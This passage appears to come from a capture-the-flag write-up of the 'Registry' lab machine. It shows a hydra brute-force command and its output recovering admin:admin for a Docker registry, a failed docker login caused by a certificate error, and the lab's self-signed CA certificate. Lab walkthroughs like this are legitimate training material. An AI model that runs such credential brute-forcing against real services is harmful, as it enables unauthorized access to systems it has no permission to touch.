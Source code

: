 ```bash
root@Zakali:~/Registry# hydra -L usernames -P /usr/share/wordlists/fasttrack.txt docker.registry.htb http-get /v2/_catalog
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-29 17:12:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5328 login tries (l:24/p:222), ~333 tries per task
[DATA] attacking http-get://docker.registry.htb:80/v2/_catalog
[80][http-get] host: docker.registry.htb   login: admin   password: admin
[STATUS] 2200.00 tries/min, 2200 tries in 00:01h, 3128 to do in 00:02h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Great, we got creds, once again, its good to try default creds before of bruteforcing, should have done that, but that works too.

```bash
root@Zakali:~/ROOTED/Registry# docker login docker.registry.htb -u admin -p admin WARNING! Using --password via the CLI is insecure. Use --password-stdin.
INFO[0000] Error logging in to v2 endpoint, trying next endpoint: Get https://docker.registry.htb/v2/: x509: certificate signed by unknown authority 
Get https://docker.registry.htb/v2/: x509: certificate signed by unknown authority
```

I managed to attempt again to login but we got a new error this time, a cert error!
That cert file will probably be used to log in, after more googling, got two intrestings links that help me use that cert and fix the error, two relvant manual pages:

1. [**Deploy a registry server**](https://docs.docker.com/registry/deploying/)
2. [**Use self-signed certificates**]( https://docs.docker.com/registry/insecure/)

Now we know the path of where to put it which is `/etc/docker/certs.d/docker.registry.htb` 

```bash
root@Zakali:~# cat /etc/docker/certs.d/docker.registry.htb/ca.crt 
-----BEGIN CERTIFICATE-----
MIIC/DCCAeSgAwIBAgIJAIFtFmFVTwEtMA0GCSqGSIb3DQEBCwUAMBMxETAPBgNV
BAMMCFJlZ2lzdHJ5MB4XDTE5MDUwNjIxMTQzNVoXDTI5MDUwMzIxMTQzNVowEzER
MA8GA1UEAwwIUmVnaXN0cnkwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIB
AQCw9BmNspBdfyc4Mt+teUfAVhepjje0/JE0db9Iqmk1DpjjWfrACum1onvabI/5
T5ryXgWb9kS8C6gzslFfPhr7tTmpCilaLPAJzHTDhK+HQCMoAhDzKXikE2dSpsJ5
zZKaJbmtS6f3qLjjJzMPqyMdt/i4kn2rp0ZPd+58pIk8Ez8C8pB1tO7j3+QAe9wc
r6vx1PYvwOYW7eg7TEfQmmQt/orFs7o6uZ1MrnbEKbZ6+bsPXLDt46EvHmBDdUn1
zGTzI3Y2UMpO7RXEN06s6tH4ufpaxlppgOnR2hSvwSXrWyVh2DVG1ZZu+lLt4eHI
qFJvJr5k/xd0N+B+v2HrCOhfAgMBAAGjUzBRMB0GA1UdDgQWBBTpKeRSEzvTkuWX
8/wn9z3DPYAQ9zAfBgNVHSMEGDAWgBTpKeRSEzvTkuWX8/wn9z3DPYAQ9zAPBgNV
HRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQABLgN9x0QNM+hgJIHvTEN3
LAoh4Dm2X5qYe/ZntCKW+ppBrXLmkOm16kjJx6wMIvUNOKqw2H5VsHpTjBSZfnEJ
UmuPHWhvCFzhGZJjKE+An1V4oAiBeQeEkE4I8nKJsfKJ0iFOzjZObBtY2xGkMz6N
7JVeEp9vdmuj7/PMkctD62mxkMAwnLiJejtba2+9xFKMOe/asRAjfQeLPsLNMdrr
CUxTiXEECxFPGnbzHdbtHaHqCirEB7wt+Zhh3wYFVcN83b7n7jzKy34DNkQdIxt9
QMPjq1S5SqXJqzop4OnthgWlwggSe/6z8ZTuDjdNIpx0tF77arh2rUOIXKIerx5B
-----END CERTIFICATE-----
```
